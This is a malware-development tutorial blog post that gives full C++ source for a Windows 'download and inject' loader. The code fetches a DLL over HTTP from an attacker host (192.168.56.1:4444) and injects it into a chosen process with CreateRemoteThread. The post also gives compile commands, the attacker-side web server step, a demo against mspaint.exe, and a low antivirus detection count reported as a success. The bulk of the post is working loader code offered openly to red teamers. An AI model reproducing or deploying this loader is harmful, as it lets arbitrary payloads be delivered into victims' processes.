



## 32. malware development tricks. Download and inject logic. C++ example.

{width="80%"}    

This post is the result of self-researching interesting trick in real-life malwares.    

### download and execute

*Download and execute* or in our case *download and inject* is interesting trick and designed to download payload or evil DLL from a url, with an emphasis on  `http`, and execute or inject it. The benefits to the *download/execute* (or *download/inject*) approach are that it can be used behind networks that filter all other traffic aside from HTTP. It can even work through a pre-configured proxy given that said proxy does not require authentication information.    

### practical example

First of all, let's go to consider [classic DLL injection](https://cocomelonc.github.io/tutorial/2021/09/20/malware-injection-2.html) malware. In the simplest case it will look like this:    

```cpp
/*
* classic DLL injection example
* author: @cocomelonc
*/
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <windows.h>
#include <tlhelp32.h>

char evilDLL[] = "C:\\evil.dll";
unsigned int evilLen = sizeof(evilDLL) + 1;

int main(int argc, char* argv[]) {
  HANDLE ph; // process handle
  HANDLE rt; // remote thread
  LPVOID rb; // remote buffer

  HMODULE hKernel32 = GetModuleHandle("Kernel32");
  VOID *lb = GetProcAddress(hKernel32, "LoadLibraryA");

  // parse process pid
  if ( atoi(argv[1]) == 0) {
    printf("PID not found :( exiting...\n");
    return -1;
  }
  printf("PID: %i", atoi(argv[1]));
  ph = OpenProcess(PROCESS_ALL_ACCESS, FALSE, 
  DWORD(atoi(argv[1])));
  rb = VirtualAllocEx(ph, NULL, evilLen, 
  (MEM_RESERVE | MEM_COMMIT), PAGE_EXECUTE_READWRITE);
  WriteProcessMemory(ph, rb, evilDLL, evilLen, NULL);
  rt = CreateRemoteThread(ph, NULL, 0, 
  (LPTHREAD_START_ROUTINE)lb, rb, 0, NULL);
  CloseHandle(ph);
  return 0;
}
```

It's pretty simple as you can see.    
Here I want to add some simple logic for downloading our `evil.dll`. In the simplest case it will look like this:    

```cpp
// download evil.dll from url
char* getEvil() {
  HINTERNET hSession = InternetOpen((LPCSTR)"Mozilla/5.0",
  INTERNET_OPEN_TYPE_DIRECT, NULL, NULL, 0);
  HINTERNET hHttpFile = InternetOpenUrl(hSession, 
  (LPCSTR)"http://192.168.56.1:4444/evil.dll", 
  0, 0, 0, 0);
  DWORD dwFileSize = 1024;
  char* buffer = new char[dwFileSize + 1];
  DWORD dwBytesRead;
  DWORD dwBytesWritten;
  HANDLE hFile = CreateFile("C:\\Temp\\evil.dll", 
  GENERIC_READ|GENERIC_WRITE, FILE_SHARE_READ, 
  NULL, OPEN_ALWAYS, FILE_ATTRIBUTE_NORMAL, NULL);
  do {
    buffer = new char[dwFileSize + 1];
    ZeroMemory(buffer, sizeof(buffer));
    InternetReadFile(hHttpFile, (LPVOID)buffer, 
    dwFileSize, &dwBytesRead);
    WriteFile(hFile, &buffer[0], dwBytesRead, 
    &dwBytesWritten, NULL);
    delete[] buffer;
    buffer = NULL;
  } while (dwBytesRead);

  CloseHandle(hFile);
  InternetCloseHandle(hHttpFile);
  InternetCloseHandle(hSession);
  return buffer;
}
```

This function download `evil.dll` from attacker's machine (`192.168.56.1:4444`, but in the real-life scenario it can be looks like `evilmeowmeow.com:80`) and save to file `C:\\Temp\\evil.dll`.   

Then, we run this code in the `main()` function. Full source code of our injector is:   

```cpp
/*
evil_inj.cpp
classic DLL injection example
author: @cocomelonc
*/
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <windows.h>
#include <tlhelp32.h>
#include <wininet.h>
#pragma comment (lib, "wininet.lib")

char evilDLL[] = "C:\\Temp\\evil.dll";
unsigned int evilLen = sizeof(evilDLL) + 1;

// download evil.dll from url
char* getEvil() {
  HINTERNET hSession = InternetOpen((LPCSTR)"Mozilla/5.0", 
  INTERNET_OPEN_TYPE_DIRECT, NULL, NULL, 0);
  HINTERNET hHttpFile = InternetOpenUrl(hSession, 
  (LPCSTR)"http://192.168.56.1:4444/evil.dll", 
  0, 0, 0, 0);
  DWORD dwFileSize = 1024;
  char* buffer = new char[dwFileSize + 1];
  DWORD dwBytesRead;
  DWORD dwBytesWritten;
  HANDLE hFile = CreateFile("C:\\Temp\\evil.dll", 
  GENERIC_READ|GENERIC_WRITE, FILE_SHARE_READ, 
  NULL, OPEN_ALWAYS, FILE_ATTRIBUTE_NORMAL, NULL);
  do {
    buffer = new char[dwFileSize + 1];
    ZeroMemory(buffer, sizeof(buffer));
    InternetReadFile(hHttpFile, (LPVOID)buffer, 
    dwFileSize, &dwBytesRead);
    WriteFile(hFile, &buffer[0], dwBytesRead, 
    &dwBytesWritten, NULL);
    delete[] buffer;
    buffer = NULL;
  } while (dwBytesRead);

  CloseHandle(hFile);
  InternetCloseHandle(hHttpFile);
  InternetCloseHandle(hSession);
  return buffer;
}

// classic DLL injection logic
int main(int argc, char* argv[]) {
  HANDLE ph; // process handle
  HANDLE rt; // remote thread
  LPVOID rb; // remote buffer

  // handle to kernel32 and pass it to GetProcAddress
  HMODULE hKernel32 = GetModuleHandle("Kernel32");
  VOID *lb = GetProcAddress(hKernel32, "LoadLibraryA");
  char* evil = getEvil();

  // parse process ID
  if ( atoi(argv[1]) == 0) {
    printf("PID not found :( exiting...\n");
    return -1;
  }
  printf("PID: %i\n", atoi(argv[1]));
  ph = OpenProcess(PROCESS_ALL_ACCESS, FALSE, 
  DWORD(atoi(argv[1])));

  // allocate memory buffer for remote process
  rb = VirtualAllocEx(ph, NULL, evilLen, 
  (MEM_RESERVE | MEM_COMMIT), PAGE_EXECUTE_READWRITE);

  // "copy" evil DLL between processes
  WriteProcessMemory(ph, rb, evilDLL, evilLen, NULL);

  // our process start new thread
  rt = CreateRemoteThread(ph, NULL, 0, 
  (LPTHREAD_START_ROUTINE)lb, rb, 0, NULL);
  CloseHandle(ph);
  return 0;
}
```

As usual, for simplicity, we create DLL which just pop-up a message box:    

```cpp
/*
evil.cpp
simple DLL for DLL inject to process
author: @cocomelonc
*/

#include <windows.h>
#pragma comment (lib, "user32.lib")

BOOL APIENTRY DllMain(HMODULE hModule, 
DWORD  nReason, LPVOID lpReserved) {
  switch (nReason) {
  case DLL_PROCESS_ATTACH:
    MessageBox(
      NULL,
      "Meow from evil.dll!",
      "=^..^=",
      MB_OK
    );
    break;
  case DLL_PROCESS_DETACH:
    break;
  case DLL_THREAD_ATTACH:
    break;
  case DLL_THREAD_DETACH:
    break;
  }
  return TRUE;
}
```

So finally after we understood entire code of the injector, we can test it.    

### demo

First of all, compile DLL:   

```bash
x86_64-w64-mingw32-g++ -shared -o evil.dll evil.cpp -fpermissive
```

{width="80%"}    

Then, compile injector:    

```bash
x86_64-w64-mingw32-g++ -O2 hack.cpp -o hack.exe -mconsole \
-lwininet -I/usr/share/mingw-w64/include/ -s \
-ffunction-sections -fdata-sections -Wno-write-strings \
-fno-exceptions -fmerge-all-constants -static-libstdc++ \
-static-libgcc -fpermissive
```

{width="80%"}    

Prepare simple web server on attacker's machine:    

```bash
python3 -m http.server 4444
```

{width="80%"}    

Make sure that the specified path exists in the victim's machine (`C:\\Temp`):    

{width="80%"}    

Finally, run victim process `mspaint.exe` and run injector `hack.exe`:    

```cmd
.\hack.exe <mspaint.exe's PID>
```

{width="80%"}    

{width="80%"}    

{width="80%"}    

{width="80%"}    

As you can see, everything is worked perfectly :)    

Let's go to upload to VirusTotal:    

{width="80%"}    

[https://www.virustotal.com/gui/file/00e3254cdf384d5c1e15e217e89df9f78b73db7a2b0d2b7f5441c6d8be804961/detection](https://www.virustotal.com/gui/file/00e3254cdf384d5c1e15e217e89df9f78b73db7a2b0d2b7f5441c6d8be804961/detection)    

**So 6 of 69 AV engines detect our file as malicious**    

I hope this section spreads awareness to the blue teamers of this interesting technique, and adds a weapon to the red teamers arsenal.      

[InternetOpen](https://docs.microsoft.com/en-us/windows/win32/api/wininet/nf-wininet-internetopena)    
[InternetOpenUrl](https://docs.microsoft.com/en-us/windows/win32/api/wininet/nf-wininet-internetopenurlw)    
[InternetReadFile](https://docs.microsoft.com/en-us/windows/win32/api/wininet/nf-wininet-internetreadfile)    
[InternetCloseHandle](https://docs.microsoft.com/en-us/windows/win32/api/wininet/nf-wininet-internetclosehandle)    
[WriteFile](https://docs.microsoft.com/en-us/windows/win32/api/fileapi/nf-fileapi-writefile)    
[CreateFile](https://docs.microsoft.com/en-us/windows/win32/api/fileapi/nf-fileapi-createfilea)    
[VirtualAllocEx](https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualallocex)   
[WriteProcessMemory](https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-writeprocessmemory)   
[CreateRemoteThread](https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createremotethread)   
[OpenProcess](https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-openprocess)    
[GetProcAddress](https://docs.microsoft.com/en-us/windows/win32/api/libloaderapi/nf-libloaderapi-getprocaddress)     
[LoadLibraryA](https://docs.microsoft.com/en-us/windows/win32/api/libloaderapi/nf-libloaderapi-loadlibrarya)    

[classic DLL injection](https://cocomelonc.github.io/tutorial/2021/09/20/malware-injection-2.html)    
[source code in Github](https://github.com/cocomelonc/2022-04-13-malware-injection-19)    
